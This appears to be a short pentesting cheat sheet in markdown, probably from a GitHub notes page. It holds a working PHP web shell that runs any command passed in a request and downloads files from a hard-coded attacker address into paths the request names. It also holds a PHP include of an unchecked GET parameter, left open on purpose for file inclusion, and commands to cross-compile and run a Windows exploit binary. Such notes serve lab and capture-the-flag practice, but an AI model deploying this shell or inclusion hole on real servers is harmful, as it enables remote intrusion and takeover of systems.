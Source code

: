 - RCE and RFI via PHP 
  ```php
    <?php 
      if (isset($_REQUEST['fupload'])) {
        file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.17.20:8000/" . $_REQUEST['fupload']));
      }
      if (isset($_REQUEST['cmd'])){
        echo system($_REQUEST["cmd"]);
      }	
    ?>
  ```
- mkt script, to create a pentesting folder environment
  ```bash
    #!/bin/bash
    if [[ $# -eq 1 ]]; then
      mkdir -p $1/{nmap,content,exploits,scripts}
      exit 0
    else
      echo "The name of the folder is needed"
      exit 1
    fi
  ```
- Execute PHP from another file
  ```php
  <?php
      $file = $_GET["file"];
      include $file; ?>
    ```

  - Compile **C** binaries with Windows dependences with **mingw-64**
  ```bash
  i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
  ```
  
  - Run cross-compiled binary (binary compiled to run in Windows):
  ```bash
  wine exploit.exe
  ```

  
